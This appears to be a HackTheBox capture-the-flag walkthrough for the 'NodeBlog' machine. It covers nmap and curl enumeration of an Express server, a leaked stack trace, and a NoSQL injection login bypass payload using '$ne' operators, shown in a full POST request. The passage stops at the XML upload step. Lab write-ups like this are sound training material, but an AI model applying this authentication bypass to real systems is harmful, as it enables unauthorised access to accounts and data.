 ### NodeBlog HackTheBox

### Difficulty = Easy

### IP Address = 10.10.11.139

Nmap Scan:

```
─$ nmap -sCV 10.10.11.139 -p22,5000 -oN nmapscan          
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-25 00:34 WAT
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Stats: 0:00:27 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 00:35 (0:00:00 remaining)
Nmap scan report for 10.10.11.139
Host is up (0.33s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.17 seconds
                                                                
```

From the scan we see that only 2 ports are open which are just ssh and http

#### Web Server Enumeration

Heading over to the web server shows this page
![image](https://user-images.githubusercontent.com/113513376/221321193-b601500e-83b7-4402-8d9d-fd6da0c0de0e.png)

Checking the web server header shows its running on express which is a nodejs web server

```
└─$ curl -v -I http://10.10.11.139:5000/
*   Trying 10.10.11.139:5000...
* Connected to 10.10.11.139 (10.10.11.139) port 5000 (#0)
> HEAD / HTTP/1.1
> Host: 10.10.11.139:5000
> User-Agent: curl/7.87.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< X-Powered-By: Express
X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
Content-Type: text/html; charset=utf-8
< Content-Length: 1891
Content-Length: 1891
< ETag: W/"763-yBLqx1Bg/Trp0SZ2cyMSGFoH5nU"
ETag: W/"763-yBLqx1Bg/Trp0SZ2cyMSGFoH5nU"
< Date: Sat, 25 Feb 2023 03:47:16 GMT
Date: Sat, 25 Feb 2023 03:47:16 GMT
< Connection: keep-alive
Connection: keep-alive
< Keep-Alive: timeout=5
Keep-Alive: timeout=5

< 
* Connection #0 to host 10.10.11.139 left intact
```

There's a login page
![image](https://user-images.githubusercontent.com/113513376/221321469-08a6fa01-f556-4dfd-8c9f-95d1431affc0.png)

Trying weak/default credential doesn't work

Note that how you would have a LAMP stack running Apache and MySQL, NPM aka node package manager could be in use on an Express Server and they usually configure those to run with NOSQL dbs like Redis, Couch, influx or Mongo db

I'll attempt NOSQL Injection 

While messing with the request i was able to throw an error that leaked the path of the web server
![image](https://user-images.githubusercontent.com/113513376/221323416-13489052-c5b0-4a70-b302-121f51433f15.png)

```
<pre>SyntaxError: Unexpected token l in JSON at position 21<br>
  &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> 
  &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:89:19)<br>
  &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18<br> 
  &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)<br> 
  &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)<br> 
  &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)<br>
  &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)<br>
  &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)<br> 
  &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)
</pre>
```

Using this payload works:
![image](https://user-images.githubusercontent.com/113513376/221324337-58269775-0870-47f9-aa95-dd4c49658453.png)

```
Payload: {"user": {"$ne": null}, "password": {"$ne": null} }
```

Here's the login post request

```
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 17
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user": {"$ne": null}, "password": {"$ne": null} }
```

We are now logged in and we see two functions which are new article and a upload function
![image](https://user-images.githubusercontent.com/113513376/221324613-2e31b728-9cf2-40ad-9ed2-3b8961e7c3ed.png)

Checking the new article shows this 
![image](https://user-images.githubusercontent.com/113513376/221324732-6136868e-e2a6-4c0b-b82a-4d2d42d4d372.png)

I'll try creating an article with intercepting the request in burp

But nothing interesting here 
![image](https://user-images.githubusercontent.com/113513376/221324843-82321a8f-6b4d-4642-8cd9-3d631eee92ae.png)

Time to check the upload function

I uploaded a random file and i got this
![image](https://user-images.githubusercontent.com/113513376/221324899-e81e985a-1f25-4c37-9656-369123354b5f.png)

Hmm it seems it requires an xml file with the format 

```
Example DescriptionExample Markdown
```


